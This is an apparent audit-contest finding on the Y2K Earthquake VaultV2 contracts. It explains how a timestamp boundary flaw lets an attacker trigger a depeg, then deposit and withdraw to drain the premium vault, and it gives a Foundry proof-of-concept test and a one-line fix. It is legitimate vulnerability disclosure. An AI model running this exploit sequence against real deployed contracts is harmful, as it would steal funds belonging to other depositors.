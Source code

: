 evan

high

# attacker can drain the premium vault if depegging happens before the epoch starts

## Summary
If the epoch begins with the price of the asset below the strike (the depeg happened before the epoch started), then the attacker can drain the premium vault by depositing & withdrawing after calling triggerDepeg (in the same transaction) at a specific time .

## Vulnerability Detail
Firstly, note that block.timestamp can be manipulated.

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L433
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L441
Observe that block.timestamp = epochConfig[_id].epochBegin passes the check in both epochHasStarted and epochHasNotStarted. 

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Controllers/ControllerPeggedAssetV2.sol#L71-L73
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L294
This means that when block.timestamp == epochConfig[_id].epochBegin, it's possible to first call the controller's triggerDepeg function (assuming that depegging has already happened).

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L102
And then call deposit. 

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Controllers/ControllerPeggedAssetV2.sol#L88
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L298
The problem with this is the epoch has already been resolved in triggerDepeg. So, finalTVL no longer reflects the total amount of assets deposited into this epoch.

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L366
The malicious user will now get much more than they are supposed to when they call withdraw. 

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Controllers/ControllerPeggedAssetV2.sol#L106-L123
Observe that ClaimTVL is set to be the amount of assets sent to the premium vault from the collateral vault. The fact that finalTVL is less than the actual amount of assets for this epoch means that the fund from the collateral vault won't be enough. Therefore, this extra amount that the malicious user is getting is coming from assets that are supposed to be for other users and epochs.
See the POC for more detail.

## Impact
Observe that this attack can fully drain the premium vault - not just the assets for that specific epoch. This causes the protocol and the other users to incur a substantial loss. Although depegging is a rare event, and manipulating block.timestamp to equal epochBegin isn't always guaranteed, I still think this qualifies for high severity since the consequences are dire, and this project is designed specifically for depegging events.

## Code Snippet
Please add the following test into EndToEndV2Test.t.sol and run it by itself `forge test -m testDepositAfterDepeg`
```solidity
function testDepositAfterDepeg() public {
        // pretend this is the underlying assets for other epochs & users
        MintableToken(UNDERLYING).mint(depegPremium);
        vm.warp(begin - 10 days);

        uint256 prev_balance = MintableToken(UNDERLYING).balanceOf(USER);
        
        // using a different user to deposit into the collateral vault to 
        // better illustrate this point
        vm.startPrank(USER2);
        MintableToken(UNDERLYING).mint(USER2);
        MintableToken(UNDERLYING).approve(depegCollateral, COLLAT_DEPOSIT_AMOUNT);
        VaultV2(depegCollateral).deposit(depegEpochId, COLLAT_DEPOSIT_AMOUNT, USER2);
        vm.stopPrank();

        vm.startPrank(USER);

        // deposit before the epoch starts
        MintableToken(UNDERLYING).approve(depegPremium, DEALT_AMOUNT*10);
        VaultV2(depegPremium).deposit(depegEpochId, PREMIUM_DEPOSIT_AMOUNT, USER);

        // manipulate block.timestamp to be exactly the time that this epoch starts
        vm.warp(begin);
        // immediately trigger depeg
        controller.triggerDepeg(depegMarketId, depegEpochId);
        // deposit again after the depeg (which shouldn't happen if this vuln doesn't exist)
        VaultV2(depegPremium).deposit(depegEpochId, PREMIUM_DEPOSIT_AMOUNT*9, USER);
        // withdraw from vaults
        VaultV2(depegPremium).withdraw(depegEpochId, PREMIUM_DEPOSIT_AMOUNT*10, USER, USER);

        uint256 cur_balance = MintableToken(UNDERLYING).balanceOf(USER);

        // the user's profit is more than 5 times (possibly more) the amount of assets 
        // the collateral vault sent to the premium vault
        assertTrue(5*VaultV2(depegPremium).claimTVL(depegEpochId) < cur_balance - prev_balance);
        vm.stopPrank();
    }
```


## Tool used

Manual Review
Foundry

## Recommendation
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L433
This comparison should be >=.

